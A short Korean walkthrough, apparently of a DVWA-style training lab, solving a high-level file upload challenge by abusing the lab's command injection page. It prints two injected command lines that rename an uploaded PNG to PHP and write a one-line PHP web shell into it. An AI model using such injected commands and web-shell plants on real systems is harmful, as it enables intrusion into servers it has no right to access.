



# File Upload (HIGH)

## 풀이



이 전과 같은 문제로 jpeg나 png 파일만 받고 용량에 제한이 있다.

그래서 hello.png 라는 빈 희색 그림을 upload 시켰다.
이



이 문제는 다른 취약점을 통해 공격해야한다.

command inject LOW 단계로 가서 아래의 명령어들을 입력시켜 hello.png 의 이름을 hello.php 로 바꾸고 php 명령어를 새로 입력시켰다.

```
0.0.0.1 & mv ../../hackable/uploads/hello.png ../../hackable/uploads/hello.php
0.0.0.1 & echo ^<?php system("ls -l") ?^> > ../../hackable/uploads/hello.php
```



그리고 처음에 확인한 위치에서 hello.php 를 확인해 보았다. 성공적으로 명령어가 실행된 것을 확인할 수 있었다.